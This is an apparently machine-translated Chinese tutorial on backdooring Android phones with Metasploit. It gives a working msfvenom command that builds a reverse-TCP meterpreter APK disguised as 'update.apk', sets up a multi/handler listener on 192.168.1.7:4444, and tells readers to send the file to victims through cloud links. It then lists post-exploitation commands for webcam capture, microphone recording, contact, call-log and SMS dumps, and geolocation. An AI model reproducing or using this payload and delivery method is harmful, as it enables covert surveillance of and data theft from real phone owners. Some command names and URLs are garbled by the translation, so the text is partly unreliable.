






# 在 android 手机上创建一个基本后门

> 原文：<https://infosecwriteups.com/creating-a-basic-backdoor-on-an-android-mobile-66bb58fc7507?source=collection_archive---------0----------------------->


图像[来源](https://nypost.com/2022/04/30/signs-your-iphone-or-android-is-infected-by-dangerous-hackers/)

在本文中，您将学习使用 Metasploit 框架破解 android 手机的最基本方法。

注意:您可以在局域网和广域网中这样做

# **#1。为 android 创建一个反向 TCP 外壳**

这是你创建的恶意软件文件来后门的机器人

用您的主机 IP 地址替换“LHOST”。

通过在终端上执行“ip a”命令来查看您的 IP。

你甚至可以在这里使用你的公共 IP。

使用你的公共 IP 可以让你黑掉网络外的任何手机。

这意味着你可以给世界上任何一部“安卓手机”开后门。

注意:要使用公共 IP，您的主机应该在路由器上启用端口转发。

-p =有效载荷。

```
msfvenom -p android/meterpreter/reverse_tcp LHOST= 192.168.1.7 LPORT=4444 R > /root/update.apk
```



图 1

# #2.启动 Metasploit 框架

在新终端中启动 Metasploit 框架

```
msfconsole
```


图 2

# #3.启动多功能处理器

您需要启动多处理程序漏洞来创建监听器。

> **我们为什么要放这个多处理器？**
> 
> 这是为了当你在受害者的手机(在框架之外)中执行后门程序时，你需要重新连接以取得控制权。

多处理器漏洞利用；

*   可用于攻击多台主机
*   与许多有效载荷兼容
*   也是一名听众

```
msf6 > use exploit/multi/handler
```



图 3

# #4.设置多处理器的有效负载

设置多重处理程序的有效负载，以便从其接收外壳

我们在这里设置我们在步骤#1 中创建的相同负载

```
msf6 exploit(multi/handler) > set payload android/meterpreter/reverse_tcp
```



图 4

# #5.设置主机地址

你需要设置你的攻击机器的 IP 来重新获得你的机器的外壳

```
msf6 exploit(multi/handler) > set LHOST 192.168.1.7
```



图 5

# #6.设置端口

设置主机的监听端口，在本例中，我将端口设置为 4444。

```
msf6 exploit(multi/handler) > set LPORT 4444
```



图 6

# #7.开始利用

现在，您可以通过执行“exploit”命令来启动监听器。

```
msf6 exploit(multi/handler) > exploit
```


图 7

# #8.安装后门

在受害者的手机上安装您在步骤 1 中创建的恶意软件后门。

你可以将恶意软件文件上传到 dropbox 或 [zippyshare](https://www.zippyshare.com/) 这样的云服务中，并将链接发送给受害者。

当受害者安装“update.apk”时

喔派。！

就这么简单！！



图 8

您将得到如图 8 所示的 meterpreter 提示符！！

# #9.后期开发

下面是一些利用漏洞后的命令，供您在得到 meterpreter 提示符后尝试。

*   sysinfo
*   网络摄像机 _ 列表
*   网络摄像头 _ 快照
*   录音 _ 麦克风
*   活动 _ 开始
*   检查 _ 根
*   转储 _ 调用日志
*   转储 _ 联系人
*   地理定位
*   wlan _ 地理位置
*   发送 _ 短信
*   sms_dump

# #10.参考

*   [https://gist . github . com/mataprasad/c5dd 39154 a 852 CDC 67 ff 7958 e0a 82699](https://gist.github.com/mataprasad/c5dd39154a852cdc67ff7958e0a82699)
*   [https://www . hackers-rise . com/post/2018/07/06/metasploit-basics-part-13-exploining-Android-mobile-devices](https://www.hackers-arise.com/post/2018/07/06/metasploit-basics-part-13-exploiting-android-mobile-devices)
*   [https://irfaanshakeel . medium . com/hacking-Android-phone-remote-using-metasploit-43 CCF 0 FBE 9 b 8](https://irfaanshakeel.medium.com/hacking-android-phone-remotely-using-metasploit-43ccf0fbe9b8)
*   [https://www . hacker academy . org/how-to-exploit-Android-phones-with-metasploit-and-MSF venom/](https://www.hackeracademy.org/how-to-exploit-android-phones-with-metasploit-and-msfvenom/)

关注我可以看到更多类似这样的内容！

在 YouTube 上找到我；[https://www.youtube.com/channel/UCo3VR-oBTt8PPbvu64D_k0g](https://www.youtube.com/channel/UCo3VR-oBTt8PPbvu64D_k0g)

喜欢这篇文章就留下一两个掌声吧！